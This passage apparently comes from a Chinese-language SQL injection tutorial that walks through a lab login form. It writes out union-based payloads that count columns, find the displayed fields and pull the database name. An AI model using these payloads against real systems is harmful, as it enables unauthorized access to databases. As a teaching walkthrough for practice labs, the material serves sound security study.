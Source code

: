 这里也是可以使用联合查询进行注入。

uname=admin' order by 3#&passwd=sdasda&submit=Submit

![img](assets/l3kvjqnWi9G6ux5.jpg) 

#### 3.7.3.3.**判断显示位**

这里需要使前面出现错误就需要让uname=数据库中没有的用户名，因为在数据库中是没有这个用户的所以就产生错误。

uname=-admin' union select 1,2#&passwd=sdasda&submit=Submit

![img](assets/VmD7viOqeKEInuU.jpg) 

#### 3.7.3.4.**确定数据库名**

uname=-admin' union select database(),2#&passwd=sdasda&submit=Submit

![img](assets/EcQCzKbp1on6hSN.jpg) 